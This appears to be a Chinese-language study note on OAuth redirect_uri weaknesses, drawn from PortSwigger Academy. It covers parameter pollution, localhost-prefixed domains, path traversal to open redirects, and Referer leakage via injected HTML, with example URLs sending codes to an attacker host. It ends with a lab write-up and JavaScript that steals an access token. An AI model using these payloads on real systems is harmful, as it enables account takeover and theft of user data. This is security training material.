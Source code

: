   如果您不熟悉这些技术，建议阅读我们关于如何[规避常见 SSRF 防御](https://portswigger.net/web-security/ssrf#circumventing-common-ssrf-defenses)和[CORS](https://portswigger.net/web-security/cors#errors-parsing-origin-headers)的内容。

- 可能偶尔**会遇到服务器端参数污染漏洞**。以防万一，**应该尝试提交重复`redirect_uri`的参数**，如下所示：

  ```
  https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
  ```

- **一些服务器还对`localhost`URI 进行特殊处理**，因为它们在开发过程中经常使用。在某些情况下，**任何以开头的重定向 URI`localhost`都可能在生产环境中被意外允许**。这可以通过**注册域名**（例如`localhost.evil-user.net`.

**不应将测试限制为仅单独探测`redirect_uri`参数**。**常需要尝试对多个参数进行不同的更改组合**。**有时更改一个参数会影响其他参数的验证**。例如，将`response_mode`from更改为`query`to`fragment`有时可以完全改变 的解析`redirect_uri`，**从而允许您提交否则会被阻止的 URI**。同样，如果您注意到`web_message`响应模式受支持，这通常允许`redirect_uri`.

#####通过代理页面窃取代码和访问令牌

无法成功将外部域提交为`redirect_uri`,应该对可以篡改 URI 的哪些部分有一个相对较好的了解。现在的关键是**利用这些知识来尝试访问客户端应用程序本身内更广泛的攻击面**。**尝试确定是否可以更改`redirect_uri`参数以指向白名单域上的任何其他页面**。

**尝试找到可以成功访问不同子域或路径的方法**。例如，默认 URI 通常位于特定于 OAuth 的路径上，例如`/oauth/callback`，可以**使用[目录遍历](https://portswigger.net/web-security/file-path-traversal)技巧**来提供域上的任意路径。

```
https://client-app.com/oauth/callback/../../example/path
```

可以在后端解释为：

```
https://client-app.com/example/path
```

**确定可以将哪些其他页面设置为重定向 URI**，检测它们是否存在用来泄漏代码或令牌的其他漏洞。对于授权code流，需要**找到一个可以让客户端访问查询参数的漏洞**，而对于[隐式授权类型](https://portswigger.net/web-security/oauth/grant-types#implicit-grant-type)，需要提取 URL 片段。

为此目的最有用的漏洞之一是**开放重定向**。可以将其用作代理，**将受害者及其代码或令牌转发到攻击者控制的域**，就可以在其中托管攻击者喜欢的任何恶意脚本。

对于隐式授权类型，**窃取访问令牌**不仅仅能够在客户端应用程序上登录受害者的帐户。由于整个隐式流程通过浏览器进行，还可以**使用令牌对 OAuth 服务的资源服务器进行自己的 API 调用**。这能够从客户端应用程序的**Web UI 获取通常无法访问的敏感用户数据**。

**应该寻找任何其他允许您提取代码或令牌并将其发送到外部域的漏洞。一些很好的例子包括：**

- **处理查询参数和 URL 片段的危险 JavaScript**
  例如，不安全的 Web 消息传递脚本可以很好地解决这个问题。在某些情况下，您可能必须确定一个较长的小工具链，以允许您通过一系列脚本传递令牌，然后最终将其泄漏到您的外部域。
- **XSS漏洞**
  尽管 XSS 攻击本身可能会产生巨大的影响，但攻击者通常会在很短的时间内访问用户的会话，然后才能关闭选项卡或导航离开。由于该`HTTPOnly`属性通常用于会话 cookie，因此攻击者通常也无法使用 XSS 直接访问它们。但是，通过窃取 OAuth 代码或令牌，攻击者可以在自己的浏览器中访问用户帐户。这使他们有更多时间来探索用户数据并执行有害操作，从而显着增加了 XSS 漏洞的严重性。
- **HTML 注入漏洞**
  在无法注入 JavaScript 的情况下（例如，由于[CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)限制或严格过滤），您仍然可以使用简单的 HTML 注入来窃取授权码。如果您可以将`redirect_uri`参数指向可以注入您自己的 HTML 内容的页面，您可能能够通过`Referer`标头泄漏代码。例如，考虑以下`img`元素：`<img src="evil-user.net">`. 尝试获取此图像时，某些浏览器（例如 Firefox）会在`Referer`请求的标头中发送完整的 URL，包括查询字符串。

labs

wp：检查redirect_uri可以存在目录遍历。**/../post/next?path=**通过重定向（漏洞利用服务器），诱导点击盗用token。网站对 userinfo 端点进行 API 调用，`/me`然后使用它获取的数据来登录用户。修改Authorization: Bearer认证并绕过。

```
<script>
    if (!document.location.hash) {
        window.location = 'https://YOUR-LAB-AUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
